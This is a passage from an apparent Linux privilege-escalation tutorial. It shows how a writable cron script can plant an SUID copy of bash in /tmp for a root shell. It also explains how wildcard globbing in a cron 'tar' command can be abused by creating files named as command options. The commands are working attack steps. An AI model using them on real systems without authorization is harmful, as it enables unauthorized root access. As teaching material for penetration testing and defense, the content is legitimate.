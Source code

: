 Then we make it executable:

```
chmod +x cron_job_name.sh
```

Now wait for the cron job to run, we can monitor it with:

```
watch -n 1 ls -l /tmp/rootbash
```

As soon as the cron job runs the script and places SUID bit which is represented as an `s` , then we can spawn bash shell as root with the `-p` option:

```
/tmp/rootbash -p
```

### Crontab Wildcards

Enumerate wildcards `*` in a file/script:

```
cat /path/to/cronjob_script.sh
```

If inside the script there's a line using a wildcard `*` like the following:

```bash
tar czf /tmp/filename.tar.gz *
```

With wildcards, we can execute anything and since that's the case then we can search in [GTFOBins](https://gtfobins.github.io) for a program, in this scenario `tar` and see what we can do, for example executing a shell.

When some command receives a wildcard character (\*) as an argument, the shell first expands the wildcard's filename, this is also known as globbing. A space-separated list of the current directory's file and directory names replaces the wildcard.

Run the following command to better understand what I mean with wildcards:

```bash
cd ~ && echo *
```

Unix/Linux filesystems are generally generous with filenames and filename expansion occurs before the command is executed, it is possible to communicate command-line options (e.g., -h, —help) to programs by creating files with these names.

The commands below should demonstrate how this works:

```
$ ls *
% touch ./-l
$ ls *
```

We can make filenames that correspond to complicated options:

```
--option=key=value
```
